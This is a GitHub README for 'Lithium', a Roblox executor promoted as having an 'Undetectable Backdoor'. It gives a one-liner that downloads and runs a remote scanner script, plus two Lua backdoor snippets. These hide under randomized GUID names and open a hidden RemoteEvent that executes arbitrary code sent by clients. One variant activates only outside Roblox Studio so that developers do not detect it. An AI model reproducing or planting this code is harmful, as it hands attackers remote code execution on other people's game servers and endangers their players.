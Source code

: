 <h1 align="center">Lithium</h1>

- ⚡ Powerful Executor
- ✅ Undetectable Backdoor
- 😎 Simple UI
# 

### Scanner
```lua
loadstring(game:HttpGet("https://raw.githubusercontent.com/Bbblaxtop/Lithium-Roblox/refs/heads/main/src/scanner.lua"))()
```

### Backdoor
```lua
script.Name = game.HttpService:GenerateGUID(false); script.Parent = game:GetService("Chat"); local s1 = Instance.new("RemoteEvent"); s1.Parent = game.LocalizationService; s1.Name = game.HttpService:GenerateGUID(false); s1.OnServerEvent:Connect(function(s2,s3) local s4 = require(14382140693) s4(s3)() end)
```

### Backdoor Non Studio
```lua
if not game:GetService("RunService"):IsStudio() script.Name = game.HttpService:GenerateGUID(false); script.Parent = game:GetService("Chat"); local s1 = Instance.new("RemoteEvent"); s1.Parent = game.LocalizationService; s1.Name = game.HttpService:GenerateGUID(false); s1.OnServerEvent:Connect(function(s2,s3) local s4 = require(14382140693) s4(s3)() end) end
```

